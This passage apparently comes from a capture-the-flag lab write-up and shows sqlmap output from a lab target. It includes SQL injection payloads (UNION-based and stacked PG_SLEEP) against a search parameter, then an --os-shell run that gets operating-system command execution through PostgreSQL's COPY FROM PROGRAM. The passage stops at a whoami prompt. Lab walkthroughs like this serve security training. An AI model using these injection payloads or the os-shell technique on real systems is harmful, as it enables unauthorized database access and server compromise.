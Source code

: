 ```bash
    Payload: search=a' UNION ALL SELECT NULL,(CHR(113)||CHR(120)||CHR(106)||CHR(107)||CHR(113))||(CHR(102)||CHR(110)||CHR(81)||CHR(105)||CHR(113)||CHR(117)||CHR(67)||CHR(106)||CHR(83)||CHR(120)||CHR(76)||CHR(67)||CHR(103)||CHR(113)||CHR(73)||CHR(85)||CHR(102)||CHR(104)||CHR(107)||CHR(110)||CHR(114)||CHR(104)||CHR(99)||CHR(80)||CHR(81)||CHR(122)||CHR(109)||CHR(116)||CHR(112)||CHR(79)||CHR(114)||CHR(109)||CHR(71)||CHR(110)||CHR(120)||CHR(82)||CHR(118)||CHR(78)||CHR(103)||CHR(69))||(CHR(113)||CHR(106)||CHR(122)||CHR(120)||CHR(113)),NULL,NULL,NULL-- gCcK
---
[06:06:58] [INFO] the back-end DBMS is PostgreSQL
back-end DBMS: PostgreSQL
[06:07:00] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/10.10.10.46'

[*] ending @ 06:07:00 /2021-03-11/
```

Sqlmap found the page to be vulnerable to multiple injections, and  identified the backend DBMS to be PostgreSQL. Getting code execution in  postgres is trivial using the `--os-shell` command.

```
# sqlmap -u 'http://10.10.10.46/dashboard.php?search=a' --cookie="PHPSESSID=2jdn17htv93irv8i5sni7ppkh7" --os-shell
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.5#stable}
|_ -| . [.]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 06:08:16 /2021-03-11/

[06:08:16] [INFO] resuming back-end DBMS 'postgresql' 
[06:08:16] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: search (GET)
    Type: stacked queries
    Title: PostgreSQL > 8.1 stacked queries (comment)
    Payload: search=a';SELECT PG_SLEEP(5)--

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: search=a' UNION ALL SELECT NULL,(CHR(113)||CHR(120)||CHR(106)||CHR(107)||CHR(113))||(CHR(102)||CHR(110)||CHR(81)||CHR(105)||CHR(113)||CHR(117)||CHR(67)||CHR(106)||CHR(83)||CHR(120)||CHR(76)||CHR(67)||CHR(103)||CHR(113)||CHR(73)||CHR(85)||CHR(102)||CHR(104)||CHR(107)||CHR(110)||CHR(114)||CHR(104)||CHR(99)||CHR(80)||CHR(81)||CHR(122)||CHR(109)||CHR(116)||CHR(112)||CHR(79)||CHR(114)||CHR(109)||CHR(71)||CHR(110)||CHR(120)||CHR(82)||CHR(118)||CHR(78)||CHR(103)||CHR(69))||(CHR(113)||CHR(106)||CHR(122)||CHR(120)||CHR(113)),NULL,NULL,NULL-- gCcK
---
[06:08:17] [INFO] the back-end DBMS is PostgreSQL
back-end DBMS: PostgreSQL
[06:08:17] [INFO] fingerprinting the back-end DBMS operating system
[06:08:19] [INFO] the back-end DBMS operating system is Linux
[06:08:20] [INFO] testing if current user is DBA
[06:08:21] [INFO] going to use 'COPY ... FROM PROGRAM ...' command execution
[06:08:21] [INFO] calling Linux OS shell. To quit type 'x' or 'q' and press ENTER
os-shell> whoami
do you want to retrieve the command standard output? [Y/n/a] 
command standard output:
---
p
```